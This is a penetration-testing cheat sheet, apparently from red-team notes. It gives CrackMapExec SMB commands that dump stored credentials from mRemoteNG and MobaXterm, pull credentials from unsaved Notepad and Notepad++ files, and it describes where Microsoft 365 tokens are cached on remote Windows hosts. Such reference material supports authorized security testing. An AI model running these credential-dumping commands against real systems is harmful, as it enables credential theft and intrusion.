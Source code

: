 ## Dump mRemoteNG
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump mRemoteNG credentials.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M mremoteng
```

## Dump MobaXterm
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump MobaXterm credentials.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M mobaxterm
```

## Dump Notepad
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump unsaved Notepad documents and parse for potential credentials.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M notepad
```

## Dump Notepad++
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump unsaved Notepad++ documents and parse for potential credentials.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M notepad++
```

## Dump WAM (Token Broker Cache)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump and decrypt access token from the Token Broker Cache.

Microsoft 365 and Azure applications on desktop will store access tokens to the Token Broker Cache. These are stored with user DPAPI.
